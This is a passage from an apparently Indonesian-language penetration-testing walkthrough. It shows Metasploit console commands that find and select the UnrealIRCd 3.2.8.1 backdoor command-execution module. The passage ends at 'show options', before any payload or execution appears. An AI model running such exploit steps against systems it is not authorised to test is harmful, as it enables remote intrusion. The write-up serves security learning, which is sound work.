 ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Kita menemukan exploit `UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) linux/remote/16922.rb` yang dimiliki oleh metasploit, untuk itu kita akan masuk ke dalam metasploit.

```
$ msfconsole

Metasploit tip: Network adapter names can be used for IP options set LHOST 
eth0
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.MMMM.oOOOOoOOOOl.MMMM,OOOOOOOOo
  dOOOOOOOO.MMMMMM.cOOOOOc.MMMMMM,OOOOOOOOx
  lOOOOOOOO.MMMMMMMMM;d;MMMMMMMMM,OOOOOOOOl
  .OOOOOOOO.MMM.;MMMMMMMMMMM;MMMM,OOOOOOOO.
   cOOOOOOO.MMM.OOc.MMMMM'oOO.MMM,OOOOOOOc
    oOOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOOo
     lOOOOO.MMM.OOOO.MMM:OOOO.MMM,OOOOOl
      ;OOOO'MMM.OOOO.MMM:OOOO.MMM;OOOO;
       .dOOo'WM.OOOOocccxOOOO.MX'xOOd.
         ,kOl'M.OOOOOOOOOOOOO.M'dOk,
           :kk;.OOOOOOOOOOOOO.;Ok:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2467 exploits - 1273 auxiliary - 431 post       ]
+ -- --=[ 1478 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search unrealircd

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf6 > use 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

